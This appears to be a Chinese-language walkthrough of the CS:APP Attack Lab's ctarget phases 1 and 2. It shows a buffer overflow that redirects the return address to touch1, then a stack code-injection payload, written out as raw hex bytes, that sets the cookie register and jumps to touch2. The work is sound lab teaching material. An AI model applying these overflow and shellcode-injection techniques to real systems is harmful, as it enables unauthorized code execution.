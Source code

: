 ```c
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

# ctarget

## phase_1

* 反汇编ctarget，`objdump -d ctarget > ctarget.d`
* 找到`touch1`的入口地址为`0x004017c0`
* 注意先填满40字节缓冲区，且缓冲区是由栈顶向栈底写入的，地址应该从低字节向高字节写
* 保存答案为`phase_1`，检查答案执行`./hex2raw < phase_1 | ./ctarget -q`

```c
// 栈顶(低地址)
// 40 字节，写满缓冲区
c0 17 40 00 00 00 00 00
// 栈顶(高地址)
```

## phase_2

* 总的来说，要构造这样的一个恶意输入：

```c
// 栈顶(低地址)
// 40 字节，写满缓冲区
// <-- getbuf 开始执行 ret 时，%rsp 的位置
注入的指令的地址
// <-- getbuf 执行完 ret 时，%rsp 的位置
touch2 的地址
movl $cookie, %edi
ret
// 栈顶(高地址)
```

* ctarget 没有随机化栈地址，gdb在`getbuf`的`ret`指令设断点，取到`%rsp`的值
* `注入的指令的地址` 应为 `%rsp + 0x10`，为 `0x5561dcb0`
* `touch2`地址为`0x004017ec`
* `movl $0x59b997fa, %edi` 机器码为 `bf fa 97 b9 59`，`ret` 机器码为 `c3`
* 综上，答案如下：

```c
// 栈顶(低地址)
// 40 字节，写满缓冲区
b0 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
bf fa 97 b9 59
c3
// 栈顶(高地址)
```
